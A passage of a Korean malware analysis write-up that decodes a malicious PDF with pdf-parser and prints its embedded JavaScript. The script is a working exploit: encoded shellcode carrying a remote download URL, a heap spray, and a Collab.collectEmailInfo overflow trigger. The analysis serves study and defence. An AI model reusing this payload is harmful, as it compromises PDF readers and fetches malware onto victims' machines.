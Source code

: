 해당 PDF 악성코드는 위와 같은 순서로 참조하여 스크립트를 실행함. 제일 먼저 PDF 문서를 열면 obj 1에서부터 시작해서 obj 13까지 참조하여 스크립트를 실행함.

### 4-4 자바스크립트 분석

![image](https://github.com/what0302/what0302.github.io/assets/18510716/e0446fd7-0cd0-4546-b3ef-baa994368448)

`$ pdf-parser.py --object 13 --raw --filter badpdf.pdf`

obj 13을 보면 obj 1에서 확인했던 zfnvkWYOKv() 함수의 실제 스트림이 포함되어 있으며 FlateDecode 방식으로 인코딩되어 있음을 확인할 수 있음. pdf-parser에서 --filter 옵션을 사용하면 FlatDecode, ASCIIHexDecode, ASCII85Decode, LZWDecode, RunLengthDecode까지 디코딩이 가능함. 따라서 --raw --filter 옵션을 붙여주어 obj 13에 포함된 zfnvkWYOKv() 함수를 확인할 수 있음.

```javascript
function zfnvkWYOKv()
{
        gwKPaJSHReD0hTAD51qao1s = unescape("%u4343%u4343%u0feb%u335b%u66c9%u80b9%u8001%uef33%ue243%uebfa%ue805%uffec%uffff%u8b7f%udf4e%uefef%u64ef%ue3af%u9f64%u42f3%u9f64%u6ee7%uef03%uefeb%u64ef%ub903%u6187%ue1a1%u0703%uef11%uefef%uaa66%ub9eb%u7787%u6511%u07e1%uef1f%uefef%uaa66%ub9e7%uca87%u105f%u072d%uef0d%uefef%uaa66%ub9e3%u0087%u0f21%u078f%uef3b%uefef%uaa66%ub9ff%u2e87%u0a96%u0757%uef29%uefef%uaa66%uaffb%ud76f%u9a2c%u6615%uf7aa%ue806%uefee%ub1ef%u9a66%u64cb%uebaa%uee85%u64b6%uf7ba%u07b9%uef64%uefef%u87bf%uf5d9%u9fc0%u7807%uefef%u66ef%uf3aa%u2a64%u2f6c%u66bf%ucfaa%u1087%uefef%ubfef%uaa64%u85fb%ub6ed%uba64%u07f7%uef8e%uefef%uaaec%u28cf%ub3ef%uc191%u288a%uebaf%u8a97%uefef%u9a10%u64cf%ue3aa%uee85%u64b6%uf7ba%uaf07%uefef%u85ef%ub7e8%uaaec%udccb%ubc34%u10bc%ucf9a%ubcbf%uaa64%u85f3%ub6ea%uba64%u07f7%uefcc%uefef%uef85%u9a10%u64cf%ue7aa%ued85%u64b6%uf7ba%uff07%uefef%u85ef%u6410%uffaa%uee85%u64b6%uf7ba%uef07%uefef%uaeef%ubdb4%u0eec%u0eec%u0eec%u0eec%u036c%ub5eb%u64bc%u0d35%ubd18%u0f10%u64ba%u6403%ue792%ub264%ub9e3%u9c64%u64d3%uf19b%uec97%ub91c%u9964%ueccf%udc1c%ua626%u42ae%u2cec%udcb9%ue019%uff51%u1dd5%ue79b%u212e%uece2%uaf1d%u1e04%u11d4%u9ab1%ub50a%u0464%ub564%ueccb%u8932%ue364%u64a4%uf3b5%u32ec%ueb64%uec64%ub12a%u2db2%uefe7%u1b07%u1011%uba10%ua3bd%ua0a2%uefa1%u7468%u7074%u2F3A%u372F%u2E38%u3031%u2E39%u3033%u352E%u632F%u756F%u746E%u302F%u3530%u4441%u3635%u2F46%u6F6C%u6461%u702E%u7068%u703F%u6664%u613D%u3836%u6534%u6563%u6565%u3637%u6366%u3235%u3732%u3337%u3832%u6136%u3938%u6235%u3863%u3334%u0036");

        tuVglXABgYUAQFEYVPi3lf = unescape("%u9090%u9090"); nDsGdY1TdZUDCCpNeYRdk28BeZ5R = 20 + gwKPaJSHReD0hTAD51qao1s.length
        while (tuVglXABgYUAQFEYVPi3lf.length < nDsGdY1TdZUDCCpNeYRdk28BeZ5R) tuVglXABgYUAQFEYVPi3lf += tuVglXABgYUAQFEYVPi3lf;
        vmRV3x9BCtZs = tuVglXABgYUAQFEYVPi3lf.substring(0, nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        dVghsR4KOJoE6WzWkTW0vz = tuVglXABgYUAQFEYVPi3lf.substring(0, tuVglXABgYUAQFEYVPi3lf.length-nDsGdY1TdZUDCCpNeYRdk28BeZ5R);
        while(dVghsR4KOJoE6WzWkTW0vz.length + nDsGdY1TdZUDCCpNeYRdk28BeZ5R < 0x40000) dVghsR4KOJoE6WzWkTW0vz = dVghsR4KOJoE6WzWkTW0vz + dVghsR4KOJoE6WzWkTW0vz + vmRV3x9BCtZs;

        dddA9SvmIp7bFVTvbRcRoFQ = new Array();

        for ( i = 0; i < 2020; i++ ) dddA9SvmIp7bFVTvbRcRoFQ[i] = dVghsR4KOJoE6WzWkTW0vz + gwKPaJSHReD0hTAD51qao1s;

        function rHjX2qS2YpWWuvNjX9JfKZ3F(qlrSKFKRQUuUXlV0ES9I6oz4pM, oq7g9J0RSV3FcMgr9DLvvDY8ee)
        {
                var lTZGviUaML2vE40mHbYk = "";

                while (--qlrSKFKRQUuUXlV0ES9I6oz4pM >= 0) lTZGviUaML2vE40mHbYk += oq7g9J0RSV3FcMgr9DLvvDY8ee;
                return lTZGviUaML2vE40mHbYk;
        }

        Collab.collectEmailInfo({msg:rHjX2qS2YpWWuvNjX9JfKZ3F(4096, unescape("%u0909%u0909"))});
}
```
